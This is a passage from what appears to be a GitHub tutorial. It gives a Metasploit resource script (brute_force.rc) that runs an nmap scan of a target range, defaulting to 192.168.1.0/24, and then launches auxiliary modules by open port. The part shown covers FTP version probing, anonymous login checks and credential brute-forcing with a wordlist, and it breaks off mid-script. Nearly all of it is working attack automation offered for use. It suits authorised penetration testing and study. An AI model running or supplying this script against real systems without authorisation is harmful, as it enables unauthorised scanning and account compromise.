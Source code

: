 Open your text editor and copy/past the follow ruby (erb) code to it, save file and name it as: **brute_force.rc**
```
   <ruby>
      help = %Q|
        Description:
          This Metasploit RC file can be used to automate the exploitation process.
          In this example we are using db_nmap to populate msfdb database with hosts
          then it triggers msf auxiliary/scanners based on target open ports reported.
          this module probes for 21:22:23:80:110:445 remote TCP ports open.

        Execute in msfconsole:
          setg RHOSTS <hosts-separated-by-spaces>
          setg USERPASS_FILE <absoluct-path-to-dicionary.txt>
          resource <path-to-script>/brute_force.rc

        Author:
          r00t-3xp10it  <pedroubuntu10[at]gmail.com>
      |
      print_line(help)
      Rex::sleep(1.5)

      if (framework.datastore['RHOSTS'] == nil or framework.datastore['RHOSTS'] == '')
         run_single("setg RHOSTS 192.168.1.0/24")
      end
      if (framework.datastore['USERPASS_FILE'] == nil or framework.datastore['USERPASS_FILE'] == '')
         run_single("setg USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/piata_ssh_userpass.txt")
      end

      run_single("db_nmap -sV -Pn -T4 -O -p 21,22,23,80,110,445 --script=smb-os-discovery.nse,http-headers.nse,ip-geolocation-geoplugin.nse --open #{framework.datastore['RHOSTS']}")
      run_single("services")
      print_good("Reading msfdb database for info.")
      xhost = framework.db.hosts.map(&:address).join(' ')
      xport = framework.db.services.map(&:port).join(' ')
      run_single("setg RHOSTS #{xhost}")

         if xhost.nil? or xhost == ''
              print_error("db_nmap scan did not find any alive connections.")
              print_error("please wait, cleaning recent configurations.")
              run_single("unsetg RHOSTS USERPASS_FILE")
              return nil
         elsif xport.nil? or xport == ''
              print_error("db_nmap did not find any 21:22:23:80:110:445 open ports.")
              print_error("please wait, cleaning recent configurations.")
              run_single("unsetg RHOSTS USERPASS_FILE")
              run_single("services -d")
              run_single("hosts -d")
              return nil
         end

         if xport =~ /21/i
              print_warning("Remote Target port: 21 ftp found")
              run_single("use auxiliary/scanner/ftp/ftp_version")
              run_single("exploit")
              run_single("use auxiliary/scanner/ftp/anonymous")
              run_single("set THREADS 35")
              run_single("exploit")
              run_single("use auxiliary/scanner/ftp/ftp_login")
              run_single("set USERPASS_FILE #{framework.datastore['USERPASS_FILE']}")
              run_single("set STOP_ON_SUCCESS true")
              run_single("set BRUTEFORCE_SPEED 4")
```